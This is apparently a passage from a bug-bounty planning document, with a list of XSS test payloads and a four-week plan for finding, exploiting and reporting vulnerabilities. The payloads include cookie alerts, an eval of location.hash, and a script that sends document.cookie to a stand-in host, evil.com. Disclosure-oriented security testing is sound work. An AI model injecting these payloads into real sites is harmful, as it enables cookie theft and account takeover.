 ### **🔴 PRIORITY 5: XSS (Cross-Site Scripting)**
**Dark Web Status**: Persistent #1 vulnerability
**Testing Strategy**:

```html
<!-- Stored XSS -->
<script>alert(document.cookie)</script>

<!-- Reflected XSS -->
<img src=x onerror=alert(document.cookie)>

<!-- DOM-based XSS -->
<script>eval(location.hash.substring(1))</script>

<!-- SVG XSS -->
<svg onload=alert('XSS')>

<!-- Iframe XSS -->
<iframe src=javascript:alert('XSS')>

<!-- Advanced XSS -->
<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
```

---

## **📊 IMPLEMENTATION TIMELINE**

### **Week 1: Withdrawal and Analysis**
- [ ] Withdraw 6 high-risk submissions
- [ ] Deep analysis of 4 medium-risk submissions
- [ ] Research specific CVEs and exploitation techniques
- [ ] Test with real browsers and actual exploitation

### **Week 2: Enhancement and Discovery**
- [ ] Enhance medium-risk submissions with real exploitation
- [ ] Discover new high-value vulnerabilities
- [ ] Test SQLi, IDOR, Command Injection, Race Conditions, XSS
- [ ] Create working exploits for each finding

### **Week 3: Submission Preparation**
- [ ] Prepare detailed vulnerability reports
- [ ] Create working code fixes for each finding
- [ ] Submit individual vulnerabilities with PRs
- [ ] Focus on high-impact findings with clear exploitation

### **Week 4: Follow-up and Optimization**
- [ ] Monitor submission status
- [ ] Optimize based on feedback
- [ ] Prepare for next round of testing
- [ ] Document lessons learned

---